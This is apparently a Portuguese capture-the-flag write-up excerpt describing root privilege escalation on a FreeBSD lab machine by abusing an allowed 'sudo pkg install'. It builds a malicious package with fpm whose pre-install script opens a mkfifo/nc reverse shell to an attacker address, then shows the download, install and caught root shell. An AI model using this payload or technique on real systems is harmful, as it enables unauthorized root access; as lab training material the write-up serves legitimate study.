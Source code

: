 Verificando a página do binário `pkg` no [GTFOBins](https://gtfobins.github.io/gtfobins/pkg/) descobri que poderia utilizá-lo para instalar um pacote malicioso, de modo a conseguir um shell reverso nesta máquina. Os passos abaixo foram executados para obter um shell como `root`

* Instalei o pacote `fpm` na máquina atacante, também disponivel a partir deste [repositório no Github](https://github.com/jordansissel/fpm)

```bash
sudo apt-get install ruby ruby-dev rubygems build-essential
sudo gem install --no-document fpm
```

* Criei um pacote contendo o payload malicioso, no caso destinado a executar o comando para obtenção de um shell reverso

```bash
TF=$(mktemp -d)
echo 'export file="/tmp/zurc"' > $TF/x.sh
echo 'rm $file;mkfifo $file;cat $file|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >$file' >> $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

* Transferi o pacote para a máquina alvo e executei o comando `sudo` permitido, obtendo assim um shell reverso a partir da conta do `jamie`, podendo assim ler a flag de root

```bash
jamie@Schooled:/tmp $ /usr/local/bin/curl http://10.10.10.10/x-1.0.txz -o x-1.0.txz
1.0.txz  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                  Dload  Upload   Total   Spent    Left  Speed
100   572  100   572    0     0   4144      0 --:--:-- --:--:-- --:--:--  4144
jamie@Schooled:/tmp $ sudo pkg install -y --no-repo-update ./x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
rm: /tmp/zurc: No such file or directory
```

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.234] 16349
# cd /root
# cat root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês no próximo post :smile:
